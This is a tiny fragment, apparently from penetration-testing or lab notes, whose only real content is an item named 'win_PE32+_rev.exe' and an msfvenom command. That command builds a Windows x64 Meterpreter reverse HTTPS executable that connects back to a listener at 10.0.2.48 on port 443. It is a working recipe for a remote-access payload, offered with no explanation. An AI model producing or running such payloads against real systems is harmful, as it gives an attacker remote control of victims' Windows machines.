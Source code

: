1. win_PE32+_rev.exe 
> msfvenom -p windows/x64/meterpreter/reverse_https LHOST=10.0.2.48 LPORT=443 -f exe > rev.exe
